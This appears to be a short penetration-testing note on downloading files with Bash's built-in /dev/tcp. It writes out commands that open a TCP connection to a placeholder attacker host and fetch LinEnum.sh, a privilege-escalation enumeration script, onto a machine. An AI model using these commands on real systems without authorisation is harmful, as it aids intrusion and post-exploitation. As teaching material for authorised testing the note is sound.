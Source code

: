 If the version of Bash on the machine is 2.04 or above, you can use /dev/tcp which is built in for simple file downloads

This method has 2 more steps for retrieving files, but still isnt complicated

### Connect to the Server
`exec 3<>/dev/tcp/<IP Address>/<Port>`
Where:

`exec` - Used to manipulate file descriptors
`3<>` - Opens descriptor 3 and gives it read write privs
`/dev/tcp` - Starts the TCP connection to the given IP on the Port



Basically, everything in Linux is a file right. So this just says, take this number 3, <> means read and write, so it tells 3 (which is basically a variable) u can read and write, and then puts that to the /dev/tcp file which does the communication, where you can specify the IP Address and the Port


# HTTP GET Request


`echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`

`-e` - Lets u use \n
`"GET /LinEnum.sh HTTP/1.1\n\n"` - Get request for LinEnum.sh using HTTP 1.1 and \n\n to end the request
`>&3` - assigns the data to the "variable" 3

# Print the Response

`cat <&3`
This just reads 3